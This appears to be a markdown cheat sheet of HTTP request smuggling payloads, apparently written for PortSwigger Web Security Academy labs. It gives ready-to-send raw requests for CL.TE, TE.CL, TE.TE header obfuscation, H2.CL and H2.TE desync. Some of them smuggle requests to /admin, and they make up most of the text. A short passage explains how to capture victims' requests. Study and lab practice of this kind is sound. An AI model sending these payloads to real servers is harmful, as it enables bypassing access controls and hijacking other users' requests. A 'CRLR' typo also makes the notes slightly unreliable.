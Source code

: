 # Request Smuggling

Apply only to HTTP/1.1

CRLR - 2 symbols


## HTTP 1.1

### CL.TE

The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding.

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```


### TE.CL

The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.

```
POST / HTTP/1.1
Host: 0a31007603d0d6be80dd350c004900be.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0


```


### TE.TE

The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


## HTTP 2.0

`
When performing some request smuggling attacks, you will want headers from the victim's request to be appended to your smuggled prefix. However, these can interfere with your attack in some cases, resulting in duplicate header errors and suchlike. In the example above, we've mitigated this by including a trailing parameter and a Content-Length header in the smuggled prefix. By using a Content-Length header that is slightly longer than the body, the victim's request will still be appended to your smuggled prefix but will be truncated before the headers.
`

### H2.CL

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```


### H2.TE

Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any transfer-encoding: chunked header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
